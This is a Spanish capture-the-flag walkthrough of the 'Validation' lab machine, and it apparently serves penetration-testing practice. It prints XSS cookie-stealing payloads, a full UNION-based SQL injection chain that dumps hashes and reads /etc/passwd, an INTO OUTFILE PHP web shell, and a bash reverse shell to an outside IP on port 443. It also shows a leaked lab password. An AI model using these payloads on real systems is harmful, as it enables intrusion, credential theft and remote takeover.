# Validation



Whatweb
http://10.129.30.7 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.129.30.7], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]

- 4566 -> forbidden
- 8080 -> 502 bad gateway

- Gobuster
```bash
gobuster dir -u http://10.129.30.7 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -x php,html,js,txt 2>/dev/null
```



- /config.php -> no muestra nada

- Vemos algo raro, si en el campo de input ponemos por ejemplo
```bash
<script>document.cookie</script>
```



Al cargar la pag parece que el html lo añade al script de la propia página



Aunque puede ser que lo esté añadiendo como nombre y ya, no que interprete nada

- Intentamos SSTI y algún XSS debido a que el nombre se muestra en la pantalla de bienvenida
```bash
{{7*7}}
<script>alert('pwned')</script>
```



Conseguimos ejecutar el xss

- Lo primero que se me ocurre es consultar el contenido del directorio **config.php**, ya que desde el lado del servidor sí tendremos acceso
No nos devuelve la segunda peticion con el contenido



- Probamos a exfiltrar cookies de sesión
```bash
<script>alert(document.cookie)</script>
```

Obtenemos una cookie



user=e5e471b69ea124fcb46a03a445960b87

- Intentaremos encontrar información sensible pero no podemos hacer mucho con el xss

- Intentamos forzar otro país que no esté dentro del choice mostrado por la página
Le meteremos por ejemplo un ' y obtenemos un error que podría ser un SQLi
```bash
username=test&country='
```



var/www/html/account.php
- Buscando el error parece que es de mysql

- Comprobamos la vulnerabilidad con algún payload *payloadallthethings -> mysql*
Conseguimos enumerar datos interceptando la petición con burp y comprobando el número de parámetros, en este caso con 1 no da el error, por lo que asumimos que la query es de 1 parámetro.
1.
```bash
' union select database()-- -
```

registration
2.
```bash
' union select schema_name from information_schema.schemata-- -
```



3.
```bash
' union select group_concat(table_name) from information_schema.tables where table_schema='registration'-- -
```

registration
4.
```bash
' union select group_concat(column_name) from information_schema.columns where table_schema='registration' and table_name='registration'-- -
```

username,userhash,country,regtime
5.
```bash
' union select group_concat(username,':',userhash) from registration-- -
```

admin:21232f297a57a5a743894a0e4a801fc3
:38fff51cb7248a06d6142c6bdf846831
:0d21c771e2473d49ca9e2def2f062bea



- Intentamos crackear la contraseña de admin



admin:admin
- No entramos por ssh ni obtenemos permisos poniendola como cookie

- Intentaremos enumerar otra base de datos
**mysql**
```bash
' union select group_concat(table_name) from information_schema.tables where table_schema='mysql'-- -
```

Muchas tablas pero nos interesa user
```bash
' union select group_concat(column_name) from information_schema.columns where table_schema='mysql' and table_name='user'-- -
```

User,Password
```bash
' union select group_concat(User,0x3a,Password,0x3a,authentication_string) from mysql.user
```

- Nos reporta un error no podemos ver el contenido en principio

- Intento cargar o leer archivos con
```bash
' union select load_file('/etc/passwd')
```

Nos da error también

- Enumeramos más datos
La versión de la db
```bash
' UNION SELECT @@version-- -
```

10.5.11-MariaDB-1
El usuario
```bash
' UNION SELECT USER()-- -
```

uhc@localhost

- Vale al parecer ahora si funciona
```bash
' UNION SELECT LOAD_FILE('/etc/passwd')-- -
```



No vemos ningún usuario a parte de root

- Vamos a intentar leer algún archivo sensible
- /var/www/html/config.php -> vacío
- localhost:4566 ->  vacío

- Intentaremos subir un archivo de prueba para escalar a un posible RCE con una shell en php
```bash
' UNION SELECT "probando" INTO OUTFILE '/var/www/html/hola.txt'-- -
```

Aunque nos de error se sube



- Subiremos una shell en php
```bash
' union select "<?php system(.....); ?>" into outfile '/var/www/html/shell.php'
```

(el código ... es *$_GET['cmd']*) -> Pero obsidian me bloquea el archivo si lo escribo
Llamamos al archivo
```bash
http://10.129.30.7/shell.php?cmd=id
```



- Revshell

- Enumeramos contenedores
/proc/net/fib_trie -> No vemos nada raro

- Ganamos acceso
```bash
bash -c 'bash -i >%26%2Fdev%2Ftcp%2F10.10.16.179%2F443 0>%261'
```

URLencodeado
www-data

## Escalada

- /var/www/html/config.php



uhc:uhc-9qual-global-pw

- Probamos
```bash
su root
```

uhc-9qual-global-pw
root
